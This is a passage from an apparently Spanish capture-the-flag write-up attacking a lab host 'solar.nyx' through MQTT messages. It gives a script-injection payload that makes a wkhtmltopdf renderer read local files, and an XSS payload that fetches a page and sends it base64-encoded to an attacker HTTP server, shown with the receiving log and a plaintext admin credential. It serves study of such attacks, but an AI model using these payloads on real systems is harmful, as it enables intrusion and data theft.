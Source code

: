 Podemos observar que son documentos creados con `wkhtmltopdf 0.12.6.1`, el cual tiene el CVE `CVE-2022-35583`, pero este no será el caso.

Intentamos un LFI, pero no lo conseguimos con el fichero `/etc/passwd`, aunque sí lo logramos con algunos ficheros PHP de los servicios web.

### Paso 1

Enviamos el siguiente `JSON` al topic `record` mediante el cliente MQTT utilizando el usuario `admin:tJH8HvwVwC57BR6CEyg5` para intentar leer el fichero `/var/www/solar.nyx/records/index.php` del servidor:

```json
{
  "time": "2024-07-13T00:07:36.621Z",
  "user": {
    "name": "JulianAdm",
    "role": "admin"
  },
  "solar": 232,
  "consumed": 223,
  "grid": -9,
  "chart": "\"><script>\np='/var/www/solar.nyx/records/index.php';\nx=new XMLHttpRequest;\nx.onerror=function(){{document.write('<p>'+p+' not found')}};\nx.onload=function(){{document.write('<p>'+p+'</p><div style=\"word-break: break-all;max-width:90%;\">'+btoa(this.responseText)+'</div>')}};\nx.open(\"GET\",\"file://\"+p);x.send();\n</script><x=\""
}
```

Podemos modificar la variable `p='/var/www/solar.nyx/records/index.php'` para seleccionar otros ficheros.

Comprobamos que el payload fue enviado correctamente al topic `record` desde el cliente MQTT.

### Paso 2

Volvemos a obtener en nuestro servicio HTTP el listado de los últimos `/records/`, enviando el siguiente JSON al topic `data`:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => { location.href='http://192.168.1.116/?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/')).arrayBuffer())));})(); \" />",
  "consumedEnergy": 15
}
```

Decodificamos el base64 del parámetro `data` recibido:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 02:04:35] "GET /?data=PCFET0NUWVBFIGh0bWw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU ... gICAgICAgICAgICAgICAgIDwvdGFibGU+CiAgICAgICAgPGEgaHJlZj0iLi4vZGFzaGJvYXJkLnBocCIgY2xhc3M9ImxvZ291dC1saW5rIj4mbHQ7IEJhY2s8L2E+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== HTTP/1.1" 200 -
```
